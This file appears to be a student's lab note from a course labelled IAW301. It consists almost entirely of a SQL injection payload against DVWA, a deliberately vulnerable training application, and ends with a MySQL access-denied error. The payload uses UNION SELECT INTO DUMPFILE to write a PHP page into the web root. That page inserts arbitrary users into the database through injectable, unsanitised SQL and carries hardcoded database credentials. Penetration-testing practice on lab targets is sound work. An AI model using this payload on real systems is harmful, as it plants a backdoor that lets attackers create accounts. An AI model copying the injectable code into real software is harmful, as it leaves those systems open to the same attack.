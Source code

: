 # IAW301
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name = $_POST["first_name"]; $last_name = $_POST["last_name"]; $username = $_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo "first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username: $username<BR>"; echo "avatar: $avatar<BR>"; $con=mysqli_connect("127.0.0.1","minhlqhe140825","bnm123456","dvwa"); if (mysqli_connect_errno()) { echo "Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to database<BR>"; } $password = "abc123"; $sql="insert into dvwa.users values (\\"$userID\\",\\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post" action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID" value="33"><br> <input type="text" name="first_name" value="John"><br> <input type="text" name="last_name" value="Gray"><br> <input type="text" name="username" value="jgray"><br> <input type="text" name="avatar" value="Just Hack It!"><br> <input type="submit" name="submit" value="Submit Form"><br> </form>' INTO DUMPFILE 'C:\xampp\htdocs\DVWA\create_user.php' -- -
mysqli_connect(): (HY000/1045): Access denied for user
